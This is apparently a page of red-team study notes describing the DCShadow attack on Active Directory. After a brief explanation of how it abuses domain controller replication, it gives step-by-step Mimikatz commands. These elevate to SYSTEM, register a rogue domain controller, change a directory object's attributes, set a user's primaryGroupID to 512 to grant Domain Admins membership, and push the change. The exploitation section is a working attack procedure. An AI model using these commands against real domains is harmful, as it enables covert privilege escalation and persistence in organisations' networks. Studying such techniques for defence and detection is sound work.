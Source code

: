 # DCShadow

## <mark style="color:red;">DCShadow</mark>

{% embed url="https://www.dcshadow.com" %}

{% embed url="https://pentestlab.blog/2018/04/16/dcshadow" %}

#### A DCShadow attack on Active Directory is an attack designed to change directory objects using malicious replication. During this attack, DCShadow impersonates a Domain Controller using administrative rights and starts a replication process, so that changes made on one Domain Controller are synchronized with other Domain Controllers. DCShadow abuses the Directory Replication Service (DRS) Remote Protocol \[MS-DRSR] and Active Directory Technical specification \[MS-ADTS].

![](<../../../.gitbook/assets/image (68).png>)

## <mark style="color:red;">Exploitation</mark>

Start Mimikatz, running as an account that is part of Domain Admins or Enterprise Admins:

```
mimikatz # !+
# This will start the mimikatz service (mimidrv) if it’s not running.
mimikatz # !processtoken
# This will elevate mimikatz process to system privilege.
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: description /value: “DCShadow was here”
# This command will start the RPC server and it will modify the object of this user’s description value once it’s been pushed.
# Another interesting part is adding a user to domain admins group:
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: primaryGroupID /value: 512
```

Now start another mimikatz process (leave the other window open) and push the object changes:

```
mimikatz # lsadump::dcshadow /push
# This command will push the object and sync with the domain.
```
